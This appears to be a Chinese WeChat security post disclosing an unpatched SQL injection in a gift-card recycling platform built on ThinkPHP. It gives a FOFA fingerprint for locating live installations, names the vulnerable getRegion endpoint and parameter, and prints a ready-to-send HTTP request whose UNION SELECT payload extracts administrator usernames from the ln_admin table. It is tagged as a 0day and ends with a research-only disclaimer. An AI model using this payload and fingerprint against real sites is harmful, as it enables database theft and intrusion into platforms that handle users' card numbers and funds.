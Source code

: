 #  某礼品卡电子券收卡系统存在前台SQL注入漏洞   
 阿乐你好   2025-05-22 08:10  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**一个先进、稳定、功能完善的回收交易平台， 通过技术对接，全面实现线上回收各类虚拟卡。销卡速度快，到账稳定。 解决浪费：直接面对用户回收 出户即可提交卡号卡密完成回收交易 解决每年上十亿礼品卡闲置的问题。 资金回流：让企业闲置、员工FULI、 亲友相赠等方式获取的礼品卡快速 变现，以达到资金回流化实现利益。 交易多样：提供线上回收、线下交易API接口等多种交易方式**  
  
**Fofa指纹："/Application/Home/Static/css/style2.css"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhsEMX5dkwKLYC2vCauFBibMXR1gzu3FvH02QVx996Xud5ofchNX8Txiaw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhAZcGX7Cbu7HsFmh4Ihiadg3RGjF79QztdvpNrhPaNAKfeiauIRAGxEXQ/640?wx_fmt=webp&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
**框架:ThinkPHP 3.2.3 Debug:True**  
## 0x01 漏洞研究&复现  
  
位于 **/Application/Home/Controller/ApiController.class.php 的getRegion 方法，通过I函数GET传入 parent_id 参数，且直接被带入SQL查询字句中，导致漏洞产生.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c6RXq60udMWMibWCk9icgeIpDQWU8lh5LZUtdaZuZxAoJIQVYUu4vwFpOGt8SpzQZ0LRkrFb2vicohA/640?wx_fmt=png&from=appmsg "")  
  
Payload:  
  
```
GET  /Home/Api/getRegion/parent_id/1)%20union%20select%201,2,user_name,4,5,6,7,8,9%20from%20ln_admin%20where%20(1=1 HTTP/1.1Host: 127.0.0.1:8066Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://127.0.0.1:8066/Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: think_language=zh-CN; PHPSESSID=p4d3rprbojktlbnfhrd9gv1gk4Connection: keep-alive
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c6RXq60udMWMibWCk9icgeIplRrQXVAIMyGQKwpvgoUaKibWFmU6BlHWoOyiagWRicejNm0RWABsw26FA/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**礼品卡源码关注公众号发送 250308 获取!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
